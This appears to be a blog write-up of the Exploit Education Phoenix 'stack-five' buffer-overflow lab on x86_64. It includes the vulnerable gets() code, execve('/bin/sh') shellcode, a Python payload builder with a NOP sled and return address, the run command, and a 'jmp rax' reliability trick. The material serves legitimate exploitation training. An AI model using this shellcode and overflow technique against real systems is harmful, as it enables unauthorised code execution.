

# Exploit Education: Stack Five

This blog is part of the
[exploit-education](https://exploit.education/phoenix/stack-five/) series. Here
I will be discussing the solution to the stack-five challenge from the phoenix
VM. I have completed this exploit for x86_64 architecture. <!-- stop -->

## Vulnerabilities

Below is the vulnerable code from the stack-five challenge:

```c
void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

Buffer overflow vulnerability: The gets function is used to read input from the
user which does not check the size of the input.


## Exploitation

Thought process for exploitation:

* Find the return address offset to jump to the shellcode.
* Find the address of the shellcode using gdb.
* Create a payload that will have the shellcode for execve("/bin/sh", NULL,
  NULL) and the address of the shellcode as the return address.
* payload should not contain terminating newlines or EOF as `gets` and `fgets`
  terminate at newline or EOF.
* Use a NOP sled to make the exploit more stable.


`payload = nop sled + shellcode + nop sled + saved rbp (becomes the new rsp)
return address`

### Where to jump (Return address)

When looking for the return address, keep in mind that the pointer in rdi
register is updated by gets() function based on the number of bytes read.

!!! tip
    Try not to use the stack for shell code.

Jumping to an address not in the stack is more stable because there is a
difference in the environment between the debugger and the actual program.
The debugger loads environment variables which can alter the addresses in the
stack. Environment variables are located in the stack and heap so the sizes can
differ between different environments. [^1] [^2]
As per my debugging, even the environment between TMUX and plain terminal was
making a difference. TMUX introduces env variables.

One more thing to note is that the addresses also change depending on the way
the program is called.

!!! tip
    Use a NOP sled even before the shellcode due to environment differences.

### Environment differences between the debugger and shell

`./stack-five` and `/home/user/stack-five` have different addresses due to
change in the size of argv[0] which will affect the stack.

The debugger usually uses the complete path when running the program so the
offsets you find in the debugger when used directly on the binary will go higher
up in the stack which can lead to illegal instructions as they have gone above
your payload and not hitting the nop sled.


* To try and make the environment in the debugger and shell equal, use `unset
  env LINES` and `unset env COLUMNS`.
* Also `set env _=/home/user/stack-five` to set the `_` env variable in the
  debugger to what it would be when running the binary in shell.
* Also, use the complete path to the binary (to keep argv similar) when running
  the binary in shell because the debugger uses the complete path.

### Crafting the Shellcode

I took the shellcode from shell-storm.org
[Shellcode](https://shell-storm.org/shellcode/files/shellcode-909.html):

```asm
.intel_syntax noprefix

#execve("/bin/bash",{NULL},{NULL})

.text
.global _start
_start:
	mov rax, 0x68732f6e69622f
	push rax
	push rsp
	pop rdi
	xor eax, eax
	push rax
	mov al, 59
	push rsp
	pop rdx
	push rsp
	pop rsi
	syscall

# as -o sc.o sc.s
# objcopy -O binary -j .text sc.o sc.bin
# xxd -i -n sc sc.bin

# unsigned char sc[] = {
#   0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x50, 0x54,
#   0x5f, 0x31, 0xc0, 0x50, 0xb0, 0x3b, 0x54, 0x5a, 0x54, 0x5e, 0x0f, 0x05
# };
# unsigned int sc_len = 24;

# Fnknda<joao[at]fukuda[dot]sh>
```

Save the shellcode in a file `sc.bin` and use it in the exploit.

```bash
as -o sc.o sc.s
objcopy -O binary -j .text sc.o sc.bin
```

### Exploit script

```python title="stack-five.py"
import sys

with open('sc.bin', "rb") as file:
    shellcode = file.read()

payload = b''
payload += b"\x90"*16
payload += shellcode
nop_len = 128 - len(payload) + 8 #rbp length = 8
payload += b"\x90"*nop_len
ret_address = b"\x00\xe6\xff\xff\xff\x7f\x00\x00"
payload += ret_address

sys.stdout.buffer.write(payload)
```

Exploit: `(python3 stack-five.py; cat ) | /home/user/stack-five`

**Exploit environment:**

* Works when I am on wsl and ssh into the machine with `ssh
user@127.0.0.1 -p 2222`.
* As checked it's not working on the qemu GUI.

You can see how below how length of argv affects the exploit.



### Making the exploit more stable

As checked in the debugger, the address of the buffer remains in rax register at
the end of the function call. So, if we can find the address of a `jmp rax`
instruction in the .text section then we can return to it to execute shellcode
reliably.

`objdump -d -j .text stack-five | grep -i 'jmp'`
Use ROPgadget for big or complex binaries and instructions.

Using the address of the `jmp rax` instruction as the return address, the
exploit worked in TMUX, shell, and qemu.

---

## Conclusion

Hope the write-up was helpful. If you have any queries or suggestions, feel free
to add them in the comments below.

[^1]: <https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html>
[^2]: <https://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code>

